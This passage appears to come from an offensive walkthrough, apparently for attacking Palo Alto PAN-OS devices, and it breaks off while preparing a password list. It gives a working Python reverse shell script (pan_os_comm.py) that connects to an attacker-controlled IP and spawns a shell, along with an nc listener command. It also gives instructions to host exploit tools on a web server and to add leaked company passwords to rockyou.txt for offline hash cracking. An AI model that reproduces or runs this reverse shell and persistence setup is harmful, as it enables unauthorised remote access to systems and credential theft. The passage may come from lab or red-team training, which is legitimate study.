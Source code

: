 ### Persistence Script Setup:

1. Perform the following command: `nano pan_os_comm.py`
2. In nano, copy and paste the below script: **NOTE- BE SURE TO CHANGE THE IP ADDRESS AND PORT IN THE "s.connect(("10.10.100.169", 63842))" LINE TO MATCH THE IP ADDRESS OF YOUR ATTACK MACHINE AND A RANDOM HIGH PORT OF YOUR CHOICE- end note :)** Please remember the random high port you choose as you will have to recall it for use in setting up your initial listener and throwing the export.

#### (ATTACKER MACHINE)

```bash
nc -lvnp 63842
```

```python
#!/usr/bin/env python3

import socket
import subprocess
import os
import pty

s = socket.socket(socket.AF_INET, socket.SOCK_STREAM)

s.connect(("10.10.100.169", 63842))

os.dup2(s.fileno(), 0)

os.dup2(s.fileno(), 1)

os.dup2(s.fileno(), 2)

pty.spawn("sh")

```

3. Once created, run the following command: `chmod +x pan_os_comm.py`

### *Host Your Tools Folder On A Web Server*

1. In the folder where you have created your tools, start a web server to host the necessary files for the exploit
   Run the below command to start the web server:
   `python3 -m http.server <port>`

### *Update Your `rockyou.txt` Wordlist For Later Password Cracking*

Through OSINT and recon, we have located a list of compromised passwords from users within this company. Lets update our rockyou.txt password list to perform offline cracking hashes.

1. Locate your `rockyou.txt` file and open using sudo.
2. Once open, append the below to list of passwords to the to the list.
